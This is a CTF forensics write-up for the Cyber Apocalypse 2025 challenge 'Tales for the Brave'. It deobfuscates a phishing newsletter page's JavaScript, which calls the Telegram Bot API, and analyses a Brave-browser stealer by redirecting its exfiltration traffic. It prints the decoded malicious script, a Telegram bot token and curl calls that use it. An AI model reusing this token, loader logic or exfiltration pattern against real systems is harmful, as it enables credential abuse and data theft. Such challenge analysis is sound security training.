 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Tales for the Brave Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Tales for the Brave
tags: ""
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## Tales for the Brave
> Solved by thewhiteh4t


- This was an interesting one because we were given a website as the starting point
- Looking at the source code, we can see `index.js` is loaded, contents :


![](https://i.imgur.com/JCKcHuS.png)

- So the javascript is obfuscated and uses `CryptoJS`, we can use an online deobfuscator : 


![](https://i.imgur.com/XjIy88q.png)

- Another better alternative is to use debugger in the browser, using debugger is simple, just open tools, click on debugger, hit pause and submit the form and the decoded javascript is revealed : 


![](https://i.imgur.com/bLswUQG.png)

- I copied this code into a `.js` file and cloned the website as well :

```
    > cat index.html
    <!DOCTYPE html>
    <html lang="en"><head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>Newsletter Signup</title>
      <link rel="stylesheet" href="index.css">
      <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/crypto-js.js"></script>
    </head>
    <body>
      <div class="newsletter">
        <div class="image-section">
          <img src="img/storytellingEldoriaMyths.png" alt="Rings">
        </div>
        <div class="form-section">
          <h1>Tales of Eldoria: Stories of Magic and Bravery for the Young and Curious</h1>
          <p>In the mystical lands of Eldoria, where dragons soar and ancient magic pulses through the air, storytelling is more than just a pastime—it's a tradition that bridges generations. Imagine a magical evening where children gather around glowing crystal orbs, listening to the mesmerizing myths and legends of Eldoria. These tales teach courage, friendship, and the magic of harmony.</p>
          <form id="newsletterForm">
            <input type="email" id="email" placeholder="Email">
                    <input type="text" id="descriptionField" placeholder="Description">
            <div class="checkbox-group">
              <p>The newsletter offers:</p>
              <label><input class="cb" id="c1" type="checkbox"> Legends of Dragons</label>
              <label><input class="cb" id="c2" type="checkbox"> Ancient Magic</label>
              <label><input class="cb" id="c3" type="checkbox"> Adventures of Heroes</label>
              <label><input class="cb" id="c4" type="checkbox"> Eldoria Myths</label>
            </div>
            <div class="buttons">
                <button type="submit" data-node-outlined="false" class="button primary">SUBMIT</button>
            </div>
          </form>
        </div>
      </div>
      <script src="./decrypted.js"></script>
    
    
    </body></html>
```

- After some inspection I noticed an interesting variable `_$_5975` and how it was used :

```
    function f(oferkfer, icd) { const channel_id = -1002496072246; var enc_token = _$_5975\\[0]; if (oferkfer === G(_$_5975[1]) && CryptoJS[_$_5975[7]\](sequence[_$_5975[6]](_$_5975[5]))\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[2]]) === _$_5975\\[8]) { var decrypted = CryptoJS[_$_5975[12]\][_$_5975[11]\](enc_token, CryptoJS\[_$_5975[3]\][_$_5975[9]]\[_$_5975[10]](oferkfer), { drop: 192 })\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[9]]); var HOST = _$_5975\\[13] + String[_$_5975[14]\](0x2f) + String\[_$_5975[14]\](0x62) + String\[_$_5975[14]\](0x6f) + String\[_$_5975[14]\](0x74) + decrypted; var xhr = new XMLHttpRequest(); xhr\[_$_5975[15]] = function () { if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) { const resp = JSON[_$_5975[10]\](xhr[_$_5975[18]]); try { const link = resp\[_$_5975[20]\][_$_5975[19]]; window\[_$_5975[23]\][_$_5975[22]\](link) } catch (error) { alert(_$_5975\[24]) } } }; xhr[_$_5975[29]\](_$_5975[25], HOST + String[_$_5975[14]](0x2f) + _$_5975\[26] + icd + _$_5975[27] + channel_id + _$_5975[28]); xhr[_$_5975[30]\](null) } else { alert(_$_5975[24]) } }
```

- Its an array and multiple items from the array were being used, so I decided to print the array, by adding a small loop : 

```
    for (var i = 0; i < 31; i++) {
      console.log(i, _$_5975[i])
    }
```

![](https://i.imgur.com/saOoRYc.png)

- As we can see, some encoded strings, parts of a URL, telegram and most importantly `RC4Drop` which is a type of cipher available in `CryptoJS`
- After this I substituted the values according to array index and ended up with the following :

```
    if (oferkfer === G('s3cur3k3y') && CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=') {
            var decrypted = CryptoJS.RC4Drop.decrypt(enc_token, CryptoJS.enc.Utf8.parse(oferkfer), {
                drop: 192
            }).toString(CryptoJS.enc.Utf8);
            var HOST = 'https://api.telegram.org' + String.fromCharCode(0x2f) + String.fromCharCode(0x62) + String.fromCharCode(0x6f) + String.fromCharCode(0x74) + decrypted;
    
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    const resp = JSON.parse(xhr.responseText);
                    try {
                        const link = resp.result.text;
                        window.location.replace(link)
                    } catch (error) {
                        alert('Form submitted!')
                    }
                }
            };
            console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
            xhr.open('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5');
            //xhr.send(null)
        } else {
            alert('Form submitted!')
        }
```

- Decryption block is executed if the condition is satisfied : 

```
    oferker -> email before @tld
    G('s3cur3k3y') -> 0p3r4t10n_4PT_Un10n
```

- So the email to satisfy the condition should be `0p3r4t10n_4PT_Un10n@abc.com` but since the script is running locally we can simply bypass the conditions
- In the end the code block sends a GET request so I inspected the URL : 

```
    console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
    
    GET https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=NaN&from_chat_id=-1002496072246&message_id=5 decrypted.js:128:17
```

- So the telegram API is being called and we get the following things : 

```
    Bot ID : bot7767830636
    Bot token : AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc
    chat_id : Null
    from_chat_id : -1002496072246
    message_id : 5
```

- `forwardMessage` does exactly what the name suggests, it will forward a message from one chat to another, but some requirements need to be fulfilled for this to happen : 

```
    Bot should be present on both chats
```

- But in the URL we can see that `chat_id` is missing, so we will make our own by creating a `group` in telegram and then we can add the bot to our group
- But we don’t know the name of the bot, to solve this there is another endpoint we can call : 

```
    > curl -s 'https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/getMe' | json_pp
    
    {
       "ok" : true,
       "result" : {
          "can_connect_to_business" : false,
          "can_join_groups" : true,
          "can_read_all_group_messages" : false,
          "first_name" : "OperationEldoriaBot",
          "has_main_web_app" : false,
          "id" : 7767830636,
          "is_bot" : true,
          "supports_inline_queries" : false,
          "username" : "OperationEldoriaBot"
       }
    }
```

- After adding the bot to our group we can iterate from message IDs `1 - 10` to get all the messages : 


![](https://i.imgur.com/1b1xrhh.png)



- We got a zip file which contains a tool that targets Brave browser, inside the zip is a windows PE file
- Time for dynamic analysis, after using `Process Explorer, Process Monitor` etc I finally checked `WireShark` for network activity because a browser stealer is expected to send the information
- And a single DNS query popped up : `z0lsc2S65u.htb` which obviously does not exists
- So I did the following :

```
    Added the domain in windows Hosts file
    Started a PHP server on my other box on port 31337 as seen in wireshark
    Launched Brave.exe again
```

![](https://i.imgur.com/Iaaj6RH.png)



- And we get a POST request to our server


![](https://i.imgur.com/LTALsWD.png)



- JSON data was being sent but more interestingly there was an `Authorization` header with JWT :


![](https://i.imgur.com/vTH0E4n.png)

- Double base64 encoded flag : 

```
    HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}
```
